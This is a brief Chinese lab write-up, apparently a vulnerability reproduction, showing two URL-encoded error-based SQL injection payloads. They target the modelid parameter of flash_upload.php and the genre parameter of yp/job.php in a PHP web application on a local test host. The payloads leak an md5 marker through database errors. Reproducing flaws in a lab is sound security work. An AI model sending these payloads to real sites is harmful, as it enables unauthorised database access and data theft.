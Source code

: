 
# 实战
在浏览器输入
```
http://IP:PORT/
```
## 安装

![image]({path}/1.png)

![image]({path}/2.png)


![image]({path}/3.png)

![image]({path}/4.png)

![image]({path}/5.png)

## 攻击实战

在浏览器输入
```
http://192.168.1.170:7777/flash_upload.php?modelid=%30%20%61%6E%64%28%73%65%6C%65%63%74%20%31%20%66%72%6F%6D%28%73%65%6C%65%63%74%20%63%6F%75%6E%74%28%2A%29%2C%63%6F%6E%63%61%74%28%28%73%65%6C%65%63%74%20%28%73%65%6C%65%63%74%20%28%73%65%6C%65%63%74%20%63%6F%6E%63%61%74%28%30%78%37%65%2C%6D%64%35%28%33%2E%31%34%31%35%29%2C%30%78%37%65%29%29%29%20%66%72%6F%6D%20%69%6E%66%6F%72%6D%61%74%69%6F%6E%5F%73%63%68%65%6D%61%2E%74%61%62%6C%65%73%20%6C%69%6D%69%74%20%30%2C%31%29%2C%66%6C%6F%6F%72%28%72%61%6E%64%28%30%29%2A%32%29%29%78%20%66%72%6F%6D%20%69%6E%66%6F%72%6D%61%74%69%6F%6E%5F%73%63%68%65%6D%61%2E%74%61%62%6C%65%73%20%67%72%6F%75%70%20%62%79%20%78%29%61%29
```

![image]({path}/6.png)



在浏览器输入

```
http://192.168.1.170:7777/yp/job.php?action=list&genre=a%2527%2B%61%6E%64%28%73%65%6C%65%63%74%20%31%20%66%72%6F%6D%28%73%65%6C%65%63%74%20%63%6F%75%6E%74%28%2A%29%2C%63%6F%6E%63%61%74%28%28%73%65%6C%65%63%74%20%28%73%65%6C%65%63%74%20%28%73%65%6C%65%63%74%20%63%6F%6E%63%61%74%28%30%78%37%65%2C%6D%64%35%28%33%2E%31%34%31%35%29%2C%30%78%37%65%29%29%29%20%66%72%6F%6D%20%69%6E%66%6F%72%6D%61%74%69%6F%6E%5F%73%63%68%65%6D%61%2E%74%61%62%6C%65%73%20%6C%69%6D%69%74%20%30%2C%31%29%2C%66%6C%6F%6F%72%28%72%61%6E%64%28%30%29%2A%32%29%29%78%20%66%72%6F%6D%20%69%6E%66%6F%72%6D%61%74%69%6F%6E%5F%73%63%68%65%6D%61%2E%74%61%62%6C%65%73%20%67%72%6F%75%70%20%62%79%20%78%29%61%29%23
```

![image]({path}/7.png)